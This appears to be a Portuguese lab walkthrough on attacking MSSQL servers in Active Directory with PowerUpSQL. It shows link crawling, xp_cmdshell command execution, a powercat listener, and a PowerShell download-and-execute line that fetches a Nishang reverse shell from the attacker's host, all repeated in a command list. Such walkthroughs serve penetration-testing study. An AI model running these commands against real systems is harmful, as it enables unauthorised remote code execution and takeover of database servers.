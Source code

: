 ```yaml
---
title: "Active Directory - Enumeração MSSQL - PowerUpSQL.ps1"
tags: [Windows, Active Directory]
categories: ActiveDirectory
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/mssql-server.png)

# Considerações Iniciais

Agora vamos iniciar a enumeração do MSSQL Server desse AD, todo AD vai ter um servidor SQL, uma vez que é onde são guardados os dados.

A ferramenta que utilizarei para essa seção é o PowerUpSql.ps1, um script escrito em PowerShell que possibilita a enumeração rápida e precisa do servidor SQL de um AD.

LEIAM O POST DE REFERÊNCIA, MUITO IMPORTANTE PARA A COMPREENSÃO DO QUE SERÁ EXECUTADO AQUI

*Referência:*

[Link 1](https://blog.netspi.com/powerupsql-powershell-toolkit-attacking-sql-server/)

# Enumeração de Servidores SQL

A ideia inicial aqui é termos qualquer tipo de acesso, mesmo que publico ao banco de dados do SQL, tendo esse acesso podemos escalar privilégios dentro dele e virar SA (sysadmin) dentro dele, podendo por exemplo habilitar o xp_cmdshell e executar comandos cmd dentro da máquina do SQL e conseguir assim um reverse shell!

Vamos lá

## Listando SPN

Ferramenta utilizada PowerUpSql.ps1

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.ps1)

Listando todos os SQL do Laboratório que estão com SPN (Service Principal Name) habilitados

`Get-SQLInstanceDomain`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql.png)

Temos um total de 5 instância de SQL sendo executadas nesse laboratório.

## Verificando Conectividade com o servidor

Agora devemos verificar se algum deles é acessível, e sendo acessível podemos logar com algum usuário

`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql1.png)

Verificamos que temos uma Acessível! Então podemos testar comandos através da chain dela agora

## Testando a chain

Para ver se temos algum tipo de execução de comando dentro do servidor sql temos que testar a chain dele, e ver se em algum desses pontos temos execução de comandos

`Get-SQLServerLinkCrawl -Instance Instancia_acessível`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql2.png)

Verificamos que ele faz uma chain em vários pontos, então é bem provável que teremos algum tipo de RCE em alguma parte dessa chain

## Executando Comandos

`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'whoami'" | ft`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql3.png)

Show! Temos RCE dentro dessa máquina!

## Ganhando um Reverse Shell

Agora vamos pegar um reverse shell nela!

Iremos utilizar o `Invoke-PowerShellTCP.ps1` do Nishang

[PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

O `HFS` para hospedar nosso servidor web onde o servidor remoto irá fazer as requisições

[HFS](https://www.rejetto.com/hfs/)

E o `powercat` para receber a conexão reversa

[PowerCat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

Setamos o powercat na porta 443 para receber a conexão reversa

`powercat -l -v -p 443 -t 1000`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev.png)

Arrumamos (colocamos a chamada da função no final dela pra automaticamente executar o reverse shell) e upamos o Invoke-PowerShellTCP.ps1 no HFS

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev1.png)

Agora chamamos no crawl nosso reverse shell

`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1'')'" | ft`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev2.png)

Recebemos a conexão reversa da máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev3.png)

# Conclusão

Pronto! Conseguimos um reverse shell através de um database link dentro do MSSQL

## Comandos Utilizados

`Get-SQLInstanceDomain`
`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'whoami'" | ft`
`powercat -l -v -p 443 -t 1000`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1'')'" | ft`